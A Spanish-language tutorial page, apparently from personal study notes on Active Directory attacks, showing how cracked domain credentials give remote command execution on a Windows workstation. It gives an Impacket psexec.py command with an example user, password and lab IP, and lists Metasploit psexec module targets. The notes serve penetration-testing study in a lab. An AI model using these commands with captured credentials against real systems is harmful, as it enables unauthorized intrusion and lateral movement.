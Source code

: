 [<- Índice](../SistemasWindows.md)
# Acceso inicial a una Shell

> Hasta el momento, hemos visto algunas maneras de capturar credenciales tanto como **hashes** de contraseñas, que podriamos *crackear*, como en texto claro. Ahora veremos algunas nociones básicas de como podríamos aprovechar estas contraseñas capturadas para conseguir ejecución remota en algún dispositivo.

### PsExec

> ***PsExec*** es una herramienta de línea de comandos en sistemas *Windows* que permite ejecutar procesos de forma remota en otros sistemas, disponible para usuarios autenticados del dominio y con suficientes **privilegios** en el dispositivo, a través del servicio **SMB** en el puerto 445.

Es una de las opciones más utilizadas para obtener ejecución remota de comandos a partir de credenciales en texto claro y existen varias implementaciones de esta herramienta que podemos utilizar.

###### Impacket `psexec.py`

Por ejemplo, supongamos que el usuario `ookami` del dominio `hfc.local` es **administrador local** en la estación de trabajo `PC-OOKAMI` con IP `192.168.22.129`.

Previamente capturamos su **hash** con un ataque **LLMNR Posioning** y con apoyo de **John The Reaper**, lo crackeamos para descubrir que la contraseña es `Pa$$w0rd!`.

![HACKAD_crackNTLMv2.png](imagenes/HACKAD_crackNTLMv2.png)

Dado que se cumple que podemos autenticarnos como el usuario y que este posee suficientes privilegios sobre el dispositivo, podemos aprovechar el **script** de *Impacket* para conseguir ejecución remota:

```bash
psexec.py 'hfc.local/ookami:Pa$$w0rd!@192.168.22.129'
```

![HACKAD_psexec1.png](imagenes/HACKAD_psexec1.png)

###### Metasploit `exploit/windows/smb/psexec`

Alternativamente, **Metasploit** tambien ofrece el módulo **`psexec`** como su propia implementación para esta herramienta.
Como es usual, solo debemos proveer a **Metasploit** con todas las opciones necesarios y ejecutar la explotación.

Para este ejemplo se probaron varios **targets**, pues el target **Powershell** por defecto, no funciona.
El que me funcionó bien es **Native upload** con el índice **2**.

```msfconsole
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
    0   Automatic
    1   PowerShell
=>  2   Native upload
    3   MOF upload
    4   Command
```

![HACKAD_msfconsole_psexec.png](imagenes/HACKAD_msfconsole_psexec.png)

# Enlaces

[<- Vectores de ataque iniciales](HACKAD_Begginers_Initial2.md) | [PowerView ->](HACKAD_Begginers_PowerView.md)